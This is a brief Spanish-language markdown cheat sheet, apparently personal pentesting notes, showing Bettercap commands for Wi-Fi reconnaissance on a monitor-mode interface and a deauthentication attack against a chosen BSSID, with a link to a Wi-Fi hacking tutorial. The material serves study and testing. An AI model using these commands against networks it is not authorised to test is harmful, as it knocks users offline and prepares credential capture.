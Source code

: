 # Ataques 

Tags: #Bettercap #Attack #WPA/WPA2 

##  Bettercap 

* [Bettercap](https://github.com/bettercap/bettercap)
* [How to use - Bettercap](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-networks-with-bettercap-0194422/)

```bash 
❯ ./bettercap -iface wlan0mon                        # Ingresar a la consola intercativa 

	❯ wifi.recon on                                 # Activamos el modo reconocimiento  
	❯ set wifi.show.sort clients desc               # Ordenar por clientes de modo descendiente 
	❯ set ticker.commands 'clear: wifi.show'        # Limpieza cada seg y que nos muestre las redes disponibles 
		❯ ticker on                                # Representa la info en forma de tablas 
	❯ wifi.recon.channel 1                          # Enfocarnos en el canal 1
	❯ wifi.deauth <BSSI>                            # Haremos un ataque de deatenticacion 
	❯ Ctrl + z                                      # Terminar la sesion 
		❯ kill %                                   # Matar el proceso en segundo plano                      
```